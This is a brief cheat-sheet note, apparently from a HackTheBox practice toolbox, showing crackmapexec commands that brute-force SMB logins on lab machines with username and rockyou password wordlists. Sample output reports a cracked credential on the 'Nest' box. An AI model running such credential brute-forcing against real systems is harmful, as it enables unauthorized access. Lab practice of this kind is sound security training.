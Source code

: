 # crackmap

crackmapexec smb 10.10.10.172 -u Users.txt -p Users.txt

## exemple

```sh
michael@k:~/Documents/Projets/01HackTheBox/Nest$ crackmapexec smb 10.10.10.178 -u ../../00ToolBox/wordlists/SecLists/Usernames/top-usernames-shortlist.txt -p ../../00ToolBox/wordlists/rockyou.txt
CME          10.10.10.178:445 HTB-NEST        [*] Windows 6.1 Build 7601 (name:HTB-NEST) (domain:HTB-NEST)
CME          10.10.10.178:445 HTB-NEST        [+] HTB-NEST\root:123456 
[*] KTHXBYE!
michael@k:~/Documents/Projets/01HackTheBox/Nest$ 
```
